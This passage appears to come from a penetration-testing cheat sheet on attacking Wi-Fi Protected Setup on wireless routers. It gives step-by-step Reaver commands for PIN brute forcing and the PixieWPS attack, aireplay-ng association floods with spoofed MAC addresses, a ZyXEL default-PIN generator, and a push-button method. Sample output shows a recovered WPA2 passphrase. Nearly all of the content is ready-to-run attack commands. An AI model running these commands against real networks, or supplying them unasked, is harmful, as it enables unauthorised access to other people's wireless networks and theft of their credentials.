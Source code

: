 #### 3.1. Reaver repos
```
github.com/t6x/reaver-wps-fork-t6x (reaver with wash and default pin generators / PixieWPS)
github.com/gabrielrcouto/reaver-wps (reaver with mac changer)
github.com/wiire-a/pixiewps (offline PixieWPS cracking tool)
```


#### 3.2. Basic usage

Example 1:
```
# iface='wlan0' # monitor mode
# bssid='DE:AD:BE:EF:00:01'
# ch=11
# reaver -i $iface -b $bssid -c $ch -p 12345670
# reaver -i $iface -b $bssid -c $ch -r 1:330 --lock-delay=300 -vvv
```
Notes:
- attempt 1 PIN at 300s with lock delay of another 300s
- remember to add more seconds on a case to case basis
- constraints: `[!] WARNING: Detected AP rate limiting, waiting 60 seconds before re-checking`

Example 2:
```
# reaver -i $iface -c $ch -b $bssid -vv -L -N -d 15 -T .5 -r 3:15
```


#### 3.3. PixieWPS attack
```
# reaver -i wlan0 -b <BSSID> -c 5 --pixie-dust  -vv
Reaver v1.6.4-git-21-g9bae55b WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
...
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e [CUT] -s [CUT] -z [CUT] -a [CUT] -n [CUT] -r [CUT]
Pixiewps 1.2
...
```


#### 3.4. Reaver attack with MAC address changer

1) Configure tool
```
# git clone https://github.com/gabrielrcouto/reaver-wps && cd reaver-wps/src && ./configure && make
```

2) Associate
```
# killall aireplay-ng
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# station='ZZ:ZZ:ZZ:ZZ:ZZ:Z'  # your WLAN MAC w/o the last character
# for i in {0..9}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
# for i in {A..F}; do aireplay-ng wlan0 -1 120 -a $bssid --ignore-negative-one -h $station$i & done
```

3) Run attack
```
# bssid='AA:BB:CC:DD:EE:FF'   # target BSSID
# ./reaver -i wlan0 -c 5 -b $bssid --mac-changer --no-nacks --win7 --no-associate -vv
```



#### 3.5. Reaver with ZyXEL default PIN generator

Info: `http://www.zyxel.com/support/announcement_wps_brute_force_attack.shtml`
Prerequisites: 
```
# git clone https://github.com/t6x/reaver-wps-fork-t6x && cd reaver-wps-fork-t6x
# git checkout master-old && cd src && ./configure && make
# make install
```

1) WPS PIN generator for ZyXEL
```
# bash wpsscan.sh | grep -i zyxel
DE:AD:BE:EF:99:99     2       -62   1.0          No          ZyXEL_9999
# reaver 2>&1 | grep -i zyxel
	-W, --generate-pin              Default Pin Generator [1] Belkin [2] D-Link [3] Zyxel
```

2) Generate PIN
```
# iwconfig wlan0 channel 2
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --generate-pin 3 --dh-small --lock-delay=300
[--- SNIP ---]
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
...
[Pin Gen] Pin Generated : 30876927
[Pin Gen] Pin Generated (+1): 30876934
[Pin Gen] Pin Generated (-1): 30876910
```

3) Use default PIN to get WPA2 password
```
# reaver 2>&1 | grep -i 'use .* pin'
	-p, --pin=<wps pin>             Use the specified 4 or 8 digit WPS pin 
# reaver -i wlan0 -b DE:AD:BE:EF:99:99 -c 2 --pin 30876927
...
[+] Waiting for beacon from DE:AD:BE:EF:99:99
[+] Associated with DE:AD:BE:EF:99:99 (ESSID: ZyXEL_9999)
...
[+] WPS PIN: '30876927'
[+] WPA PSK: '4AYYM4XXXXXXX'
[+] AP SSID: 'ZyXEL_9999'
```


#### 3.6. WPS push button method (social)

Prerequisites:
- access to the administrative web interface (*WPS Add Client*)
- physical access to the router to push the WPS button (no WPA2 credentials on the label)

1) WPA supplicant config
```
cat << EOF > /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1
EOF
```

2) Run `wpa_supplicant`
```
# killall wpa_supplicant 2>/dev/null && killall dhclient 2>/dev/null
# wpa_supplicant -c /tmp/PBC.conf -i wlan0
...
wlan0: WPA: Key negotiation completed with 40:65:a3:eb:50:76 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 40:65:a3:eb:50:76 completed [id=0 id_str=]
```

3) Initiate WPS-PBC connection
```
# wpa_cli -i wlan0 wps_pbc any
OK
```

4) Grab the WPA2 key
```
# cat /tmp/PBC.conf
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=root
update_config=1

network={
    ssid="DeadBeef"
    psk="DeadBeefPSK-LOL#1#"
    proto=RSN
    key_mgmt=WPA-PSK
    pairwise=CCMP
    auth_alg=OPEN
}
```


#### 3.7. WPS methods
```
SB = USB method, 
ETHER = Ethernet, 
LAB = Label, 
DISP = Display, 
EXTNFC = External NFC, 
INTNFC = Internal NFC, 
NFCINTF = NFC Interface, 
PBC = Push Button, 
KPAD = Keypad. 
Locked is displayed when AP setup is locked.
```
- `DISP` device generates a PIN and then it is shown on the device
- `PBC` requires a button to be pushed AP/client
